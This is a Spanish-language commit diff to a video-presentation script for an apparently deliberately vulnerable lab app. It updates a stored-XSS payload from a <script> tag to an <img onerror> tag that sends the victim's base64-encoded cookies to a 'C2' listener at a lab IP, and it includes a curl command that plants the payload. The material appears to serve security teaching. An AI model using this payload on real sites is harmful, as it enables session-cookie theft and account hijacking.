

Before and after one commit to MDiSc/vulnapxd, a Markdown page: docs/GUION_DEFENSA_VIDEO.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs(video): actualizar XSS payload para bypass innerHTML usando img onerror

````diff
--- a/docs/GUION_DEFENSA_VIDEO.md
+++ b/docs/GUION_DEFENSA_VIDEO.md
@@ -108,13 +108,15 @@
 ### PASO 2.4: Creación del payload de Stored XSS (`payload_xss.json`)
 
 * 🖥️ **Acción Visual:** Creas el archivo JSON con el script XSS usando un comando de una sola línea.
-* ⌨️ **Comando a escribir:**
+* ⌨️ **Comandos a escribir:**
   ```bash
-  echo '{"receiverId": 1, "content": "<script>new Image().src = \"http://192.168.56.10:8888/?c=\" + btoa(document.cookie);</script>"}' > payload_xss.json
+  cat << 'EOF' > payload_xss.json
+  {"receiverId": 1, "content": "<img src=x onerror=\"new Image().src='http://192.168.56.10:8888/?c='+btoa(document.cookie)\">"}
+  EOF
   cat payload_xss.json
   ```
 * 🗣️ **Lo que dices mientras tipeas y muestras `payload_xss.json`:**
-  > *"Finalmente, para la vulnerabilidad **OWASP A05:2025 Stored XSS (CWE-79 y CWE-116)**, creamos el archivo `payload_xss.json`. Diseñamos una etiqueta `<script>` que, al ser inyectada y renderizada por el `innerHTML` del cliente, enviará asíncronamente la cookie de la víctima usando un `Image Beacon` hacia nuestro listener C2 en `192.168.56.10:8888`, evadiendo así las políticas CORS. Con esto completamos el armamento de nuestros vectores."*
+  > *"Finalmente, para la vulnerabilidad **OWASP A05:2025 Stored XSS (CWE-79 y CWE-116)**, creamos el archivo `payload_xss.json`. Como el navegador bloquea etiquetas `<script>` inyectadas a través de `innerHTML`, diseñamos una etiqueta `<img>` rota que, al fallar, ejecuta el evento `onerror` y enviará asíncronamente la cookie de la víctima usando un `Image Beacon` hacia nuestro listener C2 en `192.168.56.10:8888`, evadiendo así las políticas CORS. Con esto completamos el armamento de nuestros vectores."*
 
 ---
 
@@ -163,7 +165,7 @@
 * ⌨️ **Comandos a escribir:**
   ```bash
   cat << 'EOF' > payload_xss.json
-  {"receiverId": 1, "content": "<script>new Image().src = \"http://192.168.56.10:8888/?c=\" + btoa(document.cookie);</script>"}
+  {"receiverId": 1, "content": "<img src=x onerror=\"new Image().src='http://192.168.56.10:8888/?c='+btoa(document.cookie)\">"}
   EOF
   curl -i -X POST http://192.168.56.20:4000/api/message \
        -H "Content-Type: application/json" \
````
